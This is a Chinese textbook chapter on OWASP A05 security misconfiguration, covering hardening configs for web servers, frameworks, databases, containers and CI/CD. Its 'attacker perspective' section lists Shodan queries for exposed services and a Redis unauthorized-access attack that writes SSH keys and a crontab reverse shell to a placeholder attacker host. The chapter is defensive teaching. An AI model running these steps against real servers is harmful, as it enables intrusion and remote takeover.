




## 14.6 A05：安全配置错误（Security Misconfiguration）

### 14.6.1 定义与本质

安全配置错误是指Web应用、框架、服务器、数据库、云服务、网络设备等技术栈各层的安全配置缺失、不当或过度宽松。与注入、越权等"代码级"漏洞不同，安全配置错误属于"运维级"和"架构级"问题——代码本身可能没有逻辑缺陷，但部署环境的配置为攻击者敞开了大门。

在OWASP Top 10:2021中，A05排名第五。在2017版中它曾排名第六（当时名为"Security Misconfiguration"），位置微升反映了云原生架构普及后配置面急剧膨胀的现实。根据Verizon 2023 DBIR报告，配置错误相关的安全事件占比约14%，在云环境中这一比例更高——Gartner预测到2025年99%的云安全失败将源于客户自身的配置错误。

**安全配置错误的核心特征：**



### 14.6.2 为什么安全配置错误如此普遍

安全配置错误之所以长期占据OWASP Top 10，根本原因在于其"系统性"和"隐蔽性"：

**1. 攻击面随技术栈层数指数增长**

现代Web应用的技术栈通常包括：CDN → WAF → 反向代理(Nginx/Apache) → 应用服务器(Tomcat/Gunicorn/Node.js) → 框架(Spring/Django/Express) → 数据库(MySQL/PostgreSQL/MongoDB) → 缓存(Redis/Memcached) → 消息队列(Kafka/RabbitMQ) → 容器运行时(Docker/containerd) → 编排平台(Kubernetes) → 云平台(AWS/Azure/GCP)。每一层都有数十到数百个配置项，任何一项疏忽都可能成为突破口。

**2. 开发与运维的责任真空**

安全配置往往处于开发团队和运维团队的灰色地带——开发认为这是运维的事，运维认为应该由开发在代码中处理，安全团队可能根本没有介入部署流程。

**3. 默认配置面向"易用"而非"安全"**

软件厂商为了降低使用门槛，默认配置通常偏向开放和便利。例如Redis默认无密码监听、MongoDB早期版本默认绑定0.0.0.0、MySQL的root账户默认无密码。这些设计在开发环境中降低了上手难度，但直接部署到生产环境就是灾难。

**4. 配置漂移（Configuration Drift）**

生产环境在长期运行过程中，临时性的调试配置、紧急修复的权宜之计会逐渐积累，导致实际配置偏离安全基线。

**5. 云服务的共享责任模型盲区**

云服务商负责"云的安全"（基础设施），用户负责"云中的安全"（配置）。许多团队对这一边界认知不清，误以为云平台会自动保护一切。

### 14.6.3 常见表现形式与攻击场景

#### 14.6.3.1 默认凭据未更改

这是最直接、最低级也最高频的配置错误。

| 应用/服务 | 默认凭据 | 危害 |
|-----------|----------|------|
| Tomcat Manager | tomcat/tomcat | 部署恶意WAR包获取RCE |
| Jenkins | 无认证/初始设置跳过 | 执行任意构建任务、读取凭据 |
| phpMyAdmin | root/空密码 | 完全控制数据库 |
| MongoDB | 无认证（旧版本） | 数据库完全暴露 |
| Redis | 无密码 | 写入crontab获取RCE |
| WordPress wp-admin | admin/admin | 完全控制网站 |
| Grafana | admin/admin | 泄露监控数据和数据源凭据 |
| Elasticsearch | 无认证（旧版本） | 索引数据完全暴露 |
| RabbitMQ | guest/guest | 消息队列完全控制 |
| Kubernetes Dashboard | 无认证（默认） | 集群完全控制 |

**真实案例：2017年MongoDB勒索事件**

2017年初，安全研究人员发现超过28000个MongoDB实例因默认无认证配置被攻击者擦除数据并勒索比特币赎金。攻击者使用的扫描工具极其简单——只需扫描27017端口并执行`db.dropDatabase()`。这不是高级攻击，纯粹是配置疏忽。

**真实案例：2019年Capital One数据泄露**

Capital One的AWS环境中，一个过于宽松的IAM角色配置（WAF角色拥有过多S3权限）配合SSRF漏洞，导致攻击者获取了超过1亿用户的个人数据。直接原因是IAM策略配置错误。

#### 14.6.3.2 不必要的功能启用

**调试模式暴露**

生产环境开启调试模式是极其危险的配置错误：

```python
# Django - 危险：生产环境绝不能开启DEBUG=True
DEBUG = True  # 泄露完整堆栈跟踪、SQL查询、配置信息

# 正确做法：生产环境必须关闭
DEBUG = os.environ.get('DJANGO_DEBUG', 'False') == 'True'
```

```javascript
// Express.js - 危险：泄露详细的错误堆栈
app.use((err, req, res, next) => {
    res.status(500).json({ error: err.message, stack: err.stack });
});

// 正确做法：生产环境只返回通用错误信息
app.use((err, req, res, next) => {
    console.error(err);  // 仅记录到服务器日志
    res.status(500).json({ error: 'Internal Server Error' });
});
```

**目录列表（Directory Listing）**

Web服务器的目录列表功能会暴露网站的完整文件结构，攻击者可以发现备份文件、配置文件、源代码等敏感资源：

```nginx
# Nginx - 危险：autoindex on 会暴露目录结构
server {
    listen 80;
    root /var/www/html;
    autoindex on;  # 必须关闭
}

# 正确做法
server {
    listen 80;
    root /var/www/html;
    autoindex off;
}
```

```apache
# Apache - 在.htaccess或主配置中关闭
Options -Indexes
```

**管理接口对外暴露**

数据库管理界面（phpMyAdmin、pgAdmin）、服务器监控面板（Grafana、Prometheus）、容器管理（Portainer）等管理工具不应该对外网开放：

```nginx
# 正确做法：限制管理接口只允许内网或VPN访问
location /admin/ {
    allow 10.0.0.0/8;
    allow 172.16.0.0/12;
    allow 192.168.0.0/16;
    deny all;
    
    # 或者要求额外的认证层
    auth_basic "Admin Area";
    auth_basic_user_file /etc/nginx/.htpasswd;
}
```

#### 14.6.3.3 错误信息泄露

详细的错误信息是攻击者的情报金矿。通过精心构造的异常输入，攻击者可以获取：

- **堆栈跟踪**：暴露框架版本、文件路径、类名和方法名
- **数据库错误**：泄露表名、列名、数据类型，甚至直接帮助SQL注入
- **配置信息**：暴露内部IP、端口、服务拓扑
- **版本信息**：帮助攻击者查找已知漏洞

```java
// Spring Boot - 危险：暴露详细的错误信息
server.error.include-stacktrace=always
server.error.include-message=always
server.error.include-binding-errors=always

// 正确做法：全部关闭
server.error.include-stacktrace=never
server.error.include-message=never
server.error.include-binding-errors=never
```

**攻击者视角**：当收到一个包含`com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: Table 'production_db.users' doesn't exist`的错误响应时，攻击者立刻知道了：数据库类型(MySQL)、驱动版本(jdbc4)、数据库名(production_db)、表结构(users表)。这些信息大大降低了后续攻击的难度。

#### 14.6.3.4 缺少安全响应头

HTTP安全头是Web应用的第一道防线，缺失它们会使客户端面临多种攻击：

| 安全头 | 作用 | 缺失风险 |
|--------|------|----------|
| `Content-Security-Policy` | 限制资源加载来源 | XSS攻击无法有效防御 |
| `X-Frame-Options` | 防止页面被嵌入iframe | 点击劫持攻击 |
| `X-Content-Type-Options` | 防止MIME类型嗅探 | 恶意文件被当作脚本执行 |
| `Strict-Transport-Security` | 强制HTTPS | 中间人攻击降级HTTP |
| `Referrer-Policy` | 控制Referer信息泄露 | 敏感URL参数泄露 |
| `Permissions-Policy` | 限制浏览器API使用 | 摄像头/麦克风被滥用 |
| `Cross-Origin-Opener-Policy` | 隔离浏览上下文 | 跨域信息泄露 |
| `Cross-Origin-Resource-Policy` | 限制跨域资源加载 | 资源被恶意站点加载 |
| `Cross-Origin-Embedder-Policy` | 控制跨域嵌入 | Spectre类侧信道攻击 |

**Nginx完整安全头配置：**

```nginx
server {
    listen 443 ssl http2;
    server_name example.com;
    
    # TLS安全配置
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384;
    ssl_prefer_server_ciphers off;
    ssl_session_timeout 1d;
    ssl_session_cache shared:SSL:10m;
    ssl_session_tickets off;
    
    # HSTS - 强制HTTPS，包含子域名，预加载
    add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
    
    # 防止点击劫持
    add_header X-Frame-Options "SAMEORIGIN" always;
    
    # 防止MIME类型嗅探
    add_header X-Content-Type-Options "nosniff" always;
    
    # XSS防护（现代浏览器主要依赖CSP）
    add_header X-XSS-Protection "1; mode=block" always;
    
    # 内容安全策略 - 根据实际需求定制
    add_header Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; font-src 'self'; connect-src 'self'; frame-ancestors 'self'; base-uri 'self'; form-action 'self';" always;
    
    # Referrer策略
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    
    # 权限策略
    add_header Permissions-Policy "camera=(), microphone=(), geolocation=(), payment=()" always;
    
    # 隐藏服务器版本
    server_tokens off;
    
    # 禁止访问隐藏文件
    location ~ /\. {
        deny all;
        access_log off;
        log_not_found off;
    }
}
```

#### 14.6.3.5 云存储配置错误

云存储的公开访问是最具破坏性的配置错误之一，因为受影响的数据量通常极其庞大。

**AWS S3安全配置：**

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "DenyPublicAccess",
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::my-sensitive-bucket",
                "arn:aws:s3:::my-sensitive-bucket/*"
            ],
            "Condition": {
                "Bool": {
                    "aws:SecureTransport": "false"
                }
            }
        }
    ]
}
```

**真实案例：2017年美国国防部AWS S3泄露**

美国国防部的一个AWS S3存储桶因配置为公开访问，导致18亿条社交媒体监控记录暴露在互联网上，数据量高达100GB。原因是存储桶的ACL（访问控制列表）被设置为"AuthenticatedUsers"可读——这里的"AuthenticatedUsers"指的是所有AWS注册用户，而非组织内部用户。

**真实案例：2019年Facebook用户数据泄露**

超过5.4亿条Facebook用户记录（包括账户名、Facebook ID、好友列表、评论、点赞等）被存储在两个公开的Amazon S3存储桶中，分别来自Cultura Colectiva和At the Pool两个第三方应用。

**云存储安全检查清单：**

| 检查项 | AWS | Azure | GCP |
|--------|-----|-------|-----|
| 阻止公共访问 | S3 Block Public Access | Storage防火墙 | 网络策略 |
| 默认加密 | SSE-S3/SSE-KMS | 服务端加密 | 默认加密 |
| 访问日志 | S3访问日志 | 存储分析 | 访问日志 |
| 版本控制 | S3版本控制 | Blob版本控制 | 对象版本控制 |
| 生命周期策略 | 生命周期规则 | 生命周期管理 | 生命周期配置 |
| 跨区域复制 | CRR | GRS | 复制策略 |

### 14.6.4 技术栈各层的配置安全



#### 14.6.4.1 Web服务器安全配置

**Nginx安全加固：**

```nginx
# 1. 隐藏版本号
server_tokens off;
# 或修改源码编译时的版本标识
# server_tokens build;

# 2. 限制请求方法
if ($request_method !~ ^(GET|HEAD|POST)$) {
    return 405;
}

# 3. 限制请求体大小
client_max_body_size 10m;

# 4. 防止缓冲区溢出
client_body_buffer_size 1k;
client_header_buffer_size 1k;
large_client_header_buffers 2 1k;

# 5. 超时配置
client_body_timeout 12;
client_header_timeout 12;
keepalive_timeout 15;
send_timeout 10;

# 6. 限速防暴力破解
limit_req_zone $binary_remote_addr zone=login:10m rate=10r/m;
location /login {
    limit_req zone=login burst=5 nodelay;
}

# 7. 防止热链接
location ~* \.(jpg|jpeg|png|gif|mp4)$ {
    valid_referers none blocked example.com *.example.com;
    if ($invalid_referer) {
        return 403;
    }
}
```

**Apache安全加固：**

```apache
# 1. 隐藏版本信息和模块信息
ServerTokens Prod
ServerSignature Off

# 2. 禁用TRACE方法
TraceEnable Off

# 3. 防止点击劫持
Header always append X-Frame-Options SAMEORIGIN

# 4. 限制HTTP方法
<LimitExcept GET POST HEAD>
    Deny from all
</LimitExcept>

# 5. 防止目录遍历
<Directory />
    Options -Indexes -FollowSymLinks
    AllowOverride None
    Require all denied
</Directory>

# 6. 限制上传文件大小
LimitRequestBody 10485760

# 7. 防止.htaccess覆盖
AllowOverride None
```

#### 14.6.4.2 框架安全配置

**Spring Boot安全配置：**

```yaml
# application-prod.yml
server:
  error:
    include-stacktrace: never
    include-message: never
    include-binding-errors: never
    include-exception: false
    whitelabel:
      enabled: false

spring:
  # 关闭Actuator端点暴露
  endpoints:
    web:
      exposure:
        include: health,info
  
  # 数据库连接安全
  datasource:
    url: jdbc:mysql://db-host:3306/app?useSSL=true&requireSSL=true&verifyServerCertificate=true
    hikari:
      connection-timeout: 30000
      maximum-pool-size: 10

# 关闭Swagger/OpenAPI文档
springdoc:
  api-docs:
    enabled: false
  swagger-ui:
    enabled: false

management:
  endpoints:
    web:
      exposure:
        include: health
  endpoint:
    health:
      show-details: when-authorized
```

**Django安全配置：**

```python
# settings/production.py

import os

# 安全基础
DEBUG = False
SECRET_KEY = os.environ['DJANGO_SECRET_KEY']  # 从环境变量读取，绝不硬编码
ALLOWED_HOSTS = ['www.example.com', 'example.com']

# HTTPS强制
SECURE_SSL_REDIRECT = True
SECURE_PROXY_SSL_HEADER = ('HTTP_X_FORWARDED_PROTO', 'https')
SESSION_COOKIE_SECURE = True
CSRF_COOKIE_SECURE = True

# HSTS
SECURE_HSTS_SECONDS = 31536000  # 1年
SECURE_HSTS_INCLUDE_SUBDOMAINS = True
SECURE_HSTS_PRELOAD = True

# Cookie安全
SESSION_COOKIE_HTTPONLY = True
CSRF_COOKIE_HTTPONLY = True
SESSION_COOKIE_AGE = 3600  # 1小时
SESSION_EXPIRE_AT_BROWSER_CLOSE = True

# 安全头
SECURE_CONTENT_TYPE_NOSNIFF = True
SECURE_BROWSER_XSS_FILTER = True
X_FRAME_OPTIONS = 'DENY'

# 文件上传限制
DATA_UPLOAD_MAX_MEMORY_SIZE = 5242880  # 5MB
FILE_UPLOAD_MAX_MEMORY_SIZE = 5242880

# 数据库连接加密
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'OPTIONS': {
            'sslmode': 'verify-full',
            'sslrootcert': '/path/to/ca-cert.pem',
        },
    }
}
```

**Express.js安全配置：**

```javascript
const express = require('express');
const helmet = require('helmet');
const rateLimit = require('express-rate-limit');
const hpp = require('hpp');
const cors = require('cors');

const app = express();

// 1. Helmet - 自动设置多个安全头
app.use(helmet());

// 2. CORS严格配置
app.use(cors({
    origin: ['https://www.example.com'],
    methods: ['GET', 'POST'],
    allowedHeaders: ['Content-Type', 'Authorization'],
    credentials: true,
    maxAge: 86400
}));

// 3. 限速
const limiter = rateLimit({
    windowMs: 15 * 60 * 1000,  // 15分钟
    max: 100,  // 每个IP最多100个请求
    standardHeaders: true,
    legacyHeaders: false,
});
app.use(limiter);

// 4. 防止HTTP参数污染
app.use(hpp());

// 5. 限制请求体大小
app.use(express.json({ limit: '1mb' }));
app.use(express.urlencoded({ extended: false, limit: '1mb' }));

// 6. 禁用X-Powered-By
app.disable('x-powered-by');

// 7. 生产环境错误处理
if (process.env.NODE_ENV === 'production') {
    app.use((err, req, res, next) => {
        console.error(err);
        res.status(500).json({ error: 'Internal Server Error' });
    });
}
```

#### 14.6.4.3 数据库安全配置

**MySQL安全加固：**

```sql
-- 1. 删除匿名用户
DELETE FROM mysql.user WHERE User='';

-- 2. 删除测试数据库
DROP DATABASE IF EXISTS test;
DELETE FROM mysql.db WHERE Db='test' OR Db='test\\_%';

-- 3. 禁止root远程登录
DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');

-- 4. 设置强密码策略
SET GLOBAL validate_password.length = 16;
SET GLOBAL validate_password.mixed_case_count = 1;
SET GLOBAL validate_password.number_count = 1;
SET GLOBAL validate_password.special_char_count = 1;

-- 5. 限制连接数
SET GLOBAL max_connections = 100;

-- 6. 开启审计日志（MySQL Enterprise或Percona）
INSTALL PLUGIN audit_log SONAME 'audit_log.so';

-- 7. 设置连接超时
SET GLOBAL wait_timeout = 600;
SET GLOBAL interactive_timeout = 600;

-- 8. 禁用LOCAL INFILE（防止文件读取攻击）
SET GLOBAL local_infile = 0;

FLUSH PRIVILEGES;
```

**Redis安全加固（redis.conf）：**

```conf
# 1. 设置强密码（必须）
requirepass YourVeryLongAndComplexPassword123!@#

# 2. 绑定内网地址
bind 127.0.0.1 10.0.0.5

# 3. 禁用危险命令
rename-command FLUSHDB ""
rename-command FLUSHALL ""
rename-command DEBUG ""
rename-command CONFIG "CONFIG_b7e8f3a2"
rename-command KEYS "KEYS_a3d9c1e5"

# 4. 保护模式
protected-mode yes

# 5. 禁用Lua脚本的某些操作
enable-debug-command no

# 6. TLS加密
tls-port 6380
tls-cert-file /path/to/redis.crt
tls-key-file /path/to/redis.key
tls-ca-cert-file /path/to/ca.crt
tls-auth-clients yes

# 7. 以非root用户运行
user default off
user redis_user on >YourPassword ~* +@all
```

### 14.6.5 容器与云原生安全配置

#### 14.6.5.1 Docker安全配置

```dockerfile
# 安全的Dockerfile示例
FROM node:20-alpine AS builder
WORKDIR /app
COPY package*.json ./
RUN npm ci --only=production

FROM node:20-alpine
# 1. 创建非root用户
RUN addgroup -g 1001 appgroup && \
    adduser -u 1001 -G appgroup -s /bin/sh -D appuser

WORKDIR /app
COPY --from=builder /app/node_modules ./node_modules
COPY . .

# 2. 切换到非root用户
USER appuser

# 3. 只暴露必要端口
EXPOSE 3000

# 4. 使用exec格式的ENTRYPOINT
ENTRYPOINT ["node", "server.js"]

# 5. 设置只读文件系统（在docker run时配合--read-only）
# docker run --read-only --tmpfs /tmp:rw,noexec,nosuid myapp
```

```bash
# Docker运行时安全选项
docker run \
  --read-only \                    # 只读文件系统
  --tmpfs /tmp:rw,noexec,nosuid \  # 可写临时目录但禁止执行
  --security-opt=no-new-privileges \  # 禁止提权
  --cap-drop ALL \                 # 删除所有Linux能力
  --cap-add NET_BIND_SERVICE \     # 只添加需要的能力
  --memory 512m \                  # 内存限制
  --cpus 1.0 \                     # CPU限制
  --pids-limit 100 \               # 进程数限制
  --user 1001:1001 \               # 非root运行
  myapp:latest
```

#### 14.6.5.2 Kubernetes安全配置

```yaml
# Pod安全标准 - Restricted级别
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1001
    runAsGroup: 1001
    fsGroup: 1001
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    image: myapp:latest
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop:
          - ALL
    resources:
      limits:
        memory: "256Mi"
        cpu: "500m"
      requests:
        memory: "128Mi"
        cpu: "250m"
    livenessProbe:
      httpGet:
        path: /healthz
        port: 8080
      initialDelaySeconds: 15
      periodSeconds: 10
    readinessProbe:
      httpGet:
        path: /ready
        port: 8080
      initialDelaySeconds: 5
      periodSeconds: 5
  automountServiceAccountToken: false
```

**Kubernetes RBAC最小权限示例：**

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: production
  name: app-reader
rules:
- apiGroups: [""]
  resources: ["configmaps", "secrets"]
  resourceNames: ["app-config", "app-secrets"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: app-reader-binding
  namespace: production
subjects:
- kind: ServiceAccount
  name: app-service-account
  namespace: production
roleRef:
  kind: Role
  name: app-reader
  apiGroup: rbac.authorization.k8s.io
```

### 14.6.6 CI/CD中的安全配置自动化

安全配置不应该依赖人工检查，必须融入持续集成和持续部署流程。

#### 14.6.6.1 配置即代码（Configuration as Code）

将所有安全配置纳入版本控制，确保可审计、可回滚：

```yaml
# .github/workflows/security-config-check.yml
name: Security Configuration Check

on:
  push:
    branches: [main]
  pull_request:
    branches: [main]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      # 1. Docker镜像安全扫描
      - name: Trivy container scan
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: 'myapp:${{ github.sha }}'
          format: 'sarif'
          output: 'trivy-results.sarif'
          severity: 'CRITICAL,HIGH'
      
      # 2. Kubernetes清单检查
      - name: Kubesec scan
        uses: controlplaneio/kubesec-action@v2
        with:
          scan: deploy.yaml
      
      # 3. 基础设施即代码扫描
      - name: Checkov IaC scan
        uses: bridgecrewio/checkov-action@v12
        with:
          directory: ./terraform
          framework: terraform
      
      # 4. 密钥泄露检查
      - name: GitLeaks
        uses: gitleaks/gitleaks-action@v2
      
      # 5. 安全头检查
      - name: Security Headers Check
        run: |
          curl -sI https://staging.example.com | grep -iE "x-frame-options|x-content-type-options|strict-transport|content-security-policy"
```

#### 14.6.6.2 安全配置基线工具

| 工具 | 用途 | 适用范围 |
|------|------|----------|
| **CIS Benchmarks** | 安全配置基线标准 | 操作系统、数据库、Kubernetes、云平台 |
| **ScoutSuite** | 多云安全审计 | AWS、Azure、GCP、阿里云 |
| **Prowler** | AWS安全评估 | AWS 200+安全检查 |
| **kube-bench** | Kubernetes CIS基准检查 | K8s集群配置 |
| **Lynis** | Linux系统安全审计 | Linux/Unix系统 |
| **OpenSCAP** | 合规性扫描和修复 | RHEL/CentOS系统 |
| **Docker Bench** | Docker CIS基准检查 | Docker引擎和容器 |
| **tfsec** | Terraform安全扫描 | 基础设施即代码 |
| **Semgrep** | 静态代码安全分析 | 多语言源代码 |

### 14.6.7 攻击者视角：信息收集与利用

理解攻击者如何利用配置错误，有助于更有针对性地防御。

**Shodan/Censys搜索语法：**

```text
# 搜索暴露的MongoDB
product:MongoDB port:27017 -authentication

# 搜索暴露的Elasticsearch
product:Elasticsearch port:9200

# 搜索暴露的Redis
product:Redis port:6379

# 搜索暴露的Kubernetes Dashboard
http.title:"Kubernetes Dashboard"

# 搜索默认凭据的Tomcat
http.title:"Apache Tomcat" http.component:"Tomcat"
```

**攻击链示例：从配置错误到完全控制**



**Redis未授权访问攻击步骤：**

```bash
# 1. 连接无密码的Redis
redis-cli -h <target-ip>

# 2. 写入SSH公钥
config set dir /root/.ssh
config set dbfilename authorized_keys
set x "\n\nssh-rsa AAAAB3...your-public-key...\n\n"
save

# 3. SSH登录
ssh root@<target-ip>

# 或者写入crontab反弹shell
config set dir /var/spool/cron
config set dbfilename root
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/attacker-ip/4444 0>&1\n\n"
save
```

### 14.6.8 检测与审计方法

#### 14.6.8.1 自动化检测

```bash
# 1. Nmap服务版本检测和脚本扫描
nmap -sV -sC --script=default,vuln <target>

# 2. Nikto Web服务器扫描
nikto -h https://example.com -C all

# 3. testssl.sh TLS配置检查
./testssl.sh https://example.com

# 4. Mozilla Observatory在线检查
curl "https://http-observatory.security.mozilla.org/api/v1/analyze?host=example.com"

# 5. SecurityHeaders.com评分
curl -sI https://example.com | docker run --rm -i securityheaders/security-headers-cli

# 6. 自定义安全头检查脚本
#!/bin/bash
URL=$1
HEADERS=$(curl -sI "$URL")
echo "=== Security Headers Check: $URL ==="
for header in "Strict-Transport-Security" "X-Frame-Options" "X-Content-Type-Options" "Content-Security-Policy" "Referrer-Policy" "Permissions-Policy"; do
    if echo "$HEADERS" | grep -qi "$header"; then
        echo "[+] $header: PRESENT"
    else
        echo "[-] $header: MISSING"
    fi
done

# 7. Checkov基础设施扫描
checkov -d ./terraform --framework terraform --compact --quiet

# 8. kube-bench Kubernetes安全检查
kubectl apply -f https://raw.githubusercontent.com/aquasecurity/kube-bench/main/job.yaml
kubectl logs -l app=kube-bench
```

#### 14.6.8.2 手动审计清单

| 审计类别 | 检查项 | 检查方法 |
|----------|--------|----------|
| **认证** | 默认凭据是否更改 | 尝试常见默认密码 |
| **认证** | 密码复杂度策略 | 检查配置文件 |
| **认证** | 多因素认证是否启用 | 检查登录流程 |
| **网络** | 不必要端口是否关闭 | `nmap -sT -p- <target>` |
| **网络** | 防火墙规则是否合理 | 检查iptables/security groups |
| **Web** | 安全头是否完整 | `curl -sI` 检查响应头 |
| **Web** | 错误页面是否泄露信息 | 访问不存在的页面 |
| **Web** | 目录列表是否关闭 | 访问目录路径 |
| **Web** | 管理接口是否暴露 | 扫描常见管理路径 |
| **数据库** | 远程访问是否限制 | `telnet <db-host> <port>` |
| **数据库** | 连接是否加密 | 检查连接字符串参数 |
| **文件** | 敏感文件权限 | `find / -perm -4000` |
| **文件** | 配置文件是否包含明文凭据 | `grep -r password /etc/` |
| **日志** | 安全事件是否记录 | 检查日志配置 |
| **日志** | 日志是否防篡改 | 检查日志存储权限 |
| **更新** | 系统补丁是否及时 | `yum check-update` / `apt list --upgradable` |
| **更新** | 组件版本是否最新 | `nginx -v` / `java -version` |

### 14.6.9 安全配置管理最佳实践

#### 14.6.9.1 最小权限原则的系统化实施

最小权限不仅是配置层面的原则，更需要在组织流程中制度化：

**分层权限模型：**

| 层级 | 权限范围 | 实施方式 |
|------|----------|----------|
| 网络层 | 网络分段、防火墙规则 | VPC/VLAN/安全组 |
| 应用层 | 功能访问控制 | RBAC/ABAC |
| 数据层 | 数据读写权限 | 行级安全/列级加密 |
| 运维层 | 系统管理权限 | sudo策略/特权访问管理 |
| 云平台层 | 资源创建和管理 | IAM策略/服务控制策略 |

#### 14.6.9.2 配置变更管理流程

```text
配置变更请求 → 安全影响评估 → 审批流程 → 测试环境验证 → 灰度发布 → 生产部署 → 监控验证 → 变更记录归档
```

**关键控制点：**
- 所有配置变更必须通过代码提交（GitOps模式）
- 配置变更必须经过安全团队审核
- 生产环境配置变更必须经过staging环境验证
- 变更后必须进行安全验证扫描
- 配置变更必须记录完整的审计日志

#### 14.6.9.3 密钥和凭据管理

**绝对禁止的做法：**
- 在源代码中硬编码密码、API Key、私钥
- 在配置文件中明文存储凭据
- 在Docker镜像中包含凭据
- 在环境变量中传递敏感信息（在某些场景下可被`/proc`读取）
- 在日志中输出凭据信息
- 在错误消息中暴露凭据

**正确的做法：**

```bash
# 使用HashiCorp Vault管理密钥
# 写入密钥
vault kv put secret/myapp/db username="appuser" password="complex-password"

# 读取密钥（应用启动时获取）
DB_USER=$(vault kv get -field=username secret/myapp/db)
DB_PASS=$(vault kv get -field=password secret/myapp/db)

# 使用AWS Secrets Manager
aws secretsmanager get-secret-value --secret-id prod/myapp/db --query SecretString --output text

# 使用Kubernetes Secrets
kubectl create secret generic db-creds \
  --from-literal=username=appuser \
  --from-literal=password=complex-password
```

#### 14.6.9.4 持续监控与告警

```yaml
# Prometheus告警规则示例
groups:
  - name: security-misconfiguration
    rules:
      # 检测非HTTPS流量
      - alert: HTTPTrafficDetected
        expr: sum(rate(http_requests_total{scheme="http"}[5m])) > 0
        for: 5m
        labels:
          severity: warning
        annotations:
          summary: "检测到HTTP非加密流量"
      
      # 检测异常的管理接口访问
      - alert: AdminEndpointAccess
        expr: sum(rate(http_requests_total{path=~"/admin.*|/management.*"}[5m])) > 0
        for: 1m
        labels:
          severity: critical
        annotations:
          summary: "检测到管理接口访问"
      
      # 检测过多的403/401错误（可能的扫描或暴力破解）
      - alert: HighAuthFailureRate
        expr: sum(rate(http_requests_total{status=~"401|403"}[5m])) > 10
        for: 2m
        labels:
          severity: warning
        annotations:
          summary: "认证失败率过高，可能存在暴力破解"
```

### 14.6.10 常见误区与纠正

| 误区 | 纠正 |
|------|------|
| "云平台会自动保护我们的安全" | 云安全是共享责任模型，用户负责配置层面的安全 |
| "用了框架就安全了" | 框架提供安全能力，但需要正确配置才能生效 |
| "开发环境的配置可以直接用于生产" | 开发环境偏向便利性，生产环境必须严格加固 |
| "安全配置是一次性工作" | 配置会漂移，需要持续监控和定期审计 |
| "小公司不会被攻击" | 自动化扫描工具不区分目标大小，弱配置人人可攻击 |
| "安全头是可选的" | 缺少安全头直接降低多个攻击的难度 |
| "内网服务不需要认证" | 内网横向移动是攻击链的关键步骤 |
| "防火墙等于安全" | 防火墙只是一层防御，应用层配置同样重要 |
| "关闭所有端口就安全了" | 过度限制会影响业务，需要基于最小权限的精细策略 |
| "加密就等于安全" | 加密算法选择不当、密钥管理不善同样危险 |

### 14.6.11 安全配置检查自动化框架

将安全配置检查集成到日常运维中，构建自动化防御体系：



### 14.6.12 总结

安全配置错误的本质是"知道应该做什么但没有做"。它不像注入漏洞需要巧妙的利用技巧，也不像不安全设计需要深层的架构思维——它需要的是纪律、自动化和持续关注。

**防御核心要点：**

1. **建立安全基线**：参考CIS Benchmarks为技术栈每一层建立明确的安全配置标准
2. **自动化一切**：手动配置必然出错，将安全检查集成到CI/CD流水线
3. **最小权限**：默认拒绝，按需开放，定期审查
4. **持续监控**：配置会漂移，必须有监控和告警机制
5. **密钥管理**：使用专业的密钥管理服务，杜绝明文凭据
6. **定期审计**：周期性地对生产环境进行全面的安全配置审计
7. **事件响应**：建立配置错误的发现和修复流程，缩短暴露窗口

安全配置不是一次性工程，而是持续的过程。在云原生和DevOps的时代，配置面在不断扩大，安全配置管理的重要性只会越来越高。将"安全左移"到开发和部署阶段，通过自动化工具和流程保证配置的一致性和合规性，是应对这一挑战的根本之道。

***
